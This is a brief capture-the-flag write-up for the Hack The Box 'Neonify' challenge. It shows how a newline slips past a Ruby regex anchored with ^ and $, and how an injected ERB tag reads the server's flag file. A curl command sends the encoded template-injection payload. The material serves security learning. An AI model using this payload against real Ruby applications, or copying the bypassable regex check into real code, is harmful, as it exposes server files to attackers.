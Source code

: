 #  Neonify HTB Challenge 

__________________________________________
# Neonify

Inside the source code we can see that the input is Vulnerable and it can be easily bypassed:
https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/
```ruby
if params[:neon] =~ /^[0-9a-z ]+$/i
```

The ^ and $ in the regex expression does not stop to enter malicious code if it is inject after a new line character `\n`.

We will inject into the html the ERB tag `<%= %>` with the File.open method `File.open(FILE_TO_OPEN.txt').read ` so when it render after the request it will show the flag.

```ruby
<%= File.open('flag.txt').read %>
```
 
### Exploit

```sh
# Url encode <%= File.open('flag.txt').read %> in order to read the flag and make a request with curl
curl -d 'neon=a
%3C%25%3D%20File.open%28%27flag.txt%27%29.read%20%25%3E' CHALLENGE_IP:PORT | grep -i htb
```
